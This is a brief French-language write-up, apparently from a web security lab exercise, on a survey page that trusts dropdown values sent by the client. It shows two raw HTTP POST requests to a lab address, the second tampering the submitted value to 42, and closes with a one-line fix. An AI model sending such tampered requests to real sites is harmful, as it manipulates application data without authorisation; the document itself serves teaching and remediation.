 # Non verified data send

## Exploitation

Sur la page ?page=survey on peut voir des menus déroulant avec des valeurs dedans il est possible de les changer le serveur ne les verifie pas 

POST /?page=survey HTTP/1.1
Host: 192.168.122.55
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://192.168.122.55
Connection: close
Referer: http://192.168.122.55/?page=survey
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1

sujet=2&valeur=6

POST /?page=survey HTTP/1.1
Host: 192.168.122.55
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://192.168.122.55
Connection: close
Referer: http://192.168.122.55/?page=survey
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1

sujet=2&valeur=42

l'important c'est les valeurs

## Resolution

Faire vérifier par le serveur que les valeur envoyées existent bel et bien